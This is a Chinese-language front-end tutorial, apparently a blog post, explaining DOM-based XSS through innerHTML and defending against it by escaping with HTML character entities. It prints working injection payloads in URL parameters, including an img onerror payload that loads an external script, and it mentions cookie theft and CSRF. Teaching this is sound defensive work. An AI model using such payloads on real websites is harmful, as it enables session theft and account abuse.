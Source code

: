 你把地址改成 `www.example.com/user.html?name=<img src=@ onerror=alert(1)>` 的话，就相当于：

```js
document.getElementById('d1').innerHTML = '<img src=@ onerror=alert(1)>';
```

此时立刻就弹窗了 1。

也许你会想，不就是弹窗个 1 吗？还能怎么样？能写多少代码？

那我把地址改成 `www.example.com/user.html?name=<img src=@ onerror='var s=document.createElement("script");s.src="https://mqyqingfeng.github.io/demo/js/alert.js";document.body.appendChild(s);' />` 呢？

就相当于：

```js
document.getElementById('username').innerHTML =
  '<img src=@ onerror=\'var s=document.createElement("script");s.src="https://mqyqingfeng.github.io/demo/js/alert.js";document.body.appendChild(s);\' />';
```

整理下其中 onerror 的代码：

```js
var s = document.createElement('script');
s.src = 'https://mqyqingfeng.github.io/demo/js/alert.js';
document.body.appendChild(s);
```

代码中引入了一个第三方的脚本，这样做的事情就多了，从取你的 cookie，发送到黑客自己的服务器，到监听你的输入，到发起 CSRF 攻击，直接以你的身份调用网站的各种接口……

总之，很危险。

为了防止这种情况的发生，我们可以将网址上的值取到后，进行一个特殊处理，再赋值给 DOM 的 innerHTML。

## 字符实体

问题是怎么进行转义呢？而这就要谈到字符实体的概念了。

在 HTML 中，某些字符是预留的。比如说在 HTML 中不能使用小于号（<）和大于号（>），因为浏览器会误认为它们是标签。

如果希望正确地显示预留字符，我们必须在 HTML 源代码中使用字符实体（character entities）。

字符实体有两种形式：

1.  `&entity_name;`
2.  `&#entity_number;`。

比如说我们要显示小于号，我们可以这样写：`&lt;` 或 `&#60`;

值得一提的是，使用实体名而不是数字的好处是，名称易于记忆。不过坏处是，浏览器也许并不支持所有实体名称（但是对实体数字的支持却很好）。

也许你会好奇，为什么 `<` 的字符实体是 `&#60` 呢？这是怎么进行计算的呢？

其实很简单，就是取字符的 unicode 值，以 `&#` 开头接十进制数字 或者以 `&#x`开头接十六进制数字。举个例子：

```js
var num = '<'.charCodeAt(0); // 60
num.toString(10); // '60'
num.toString(16); // '3c'
```
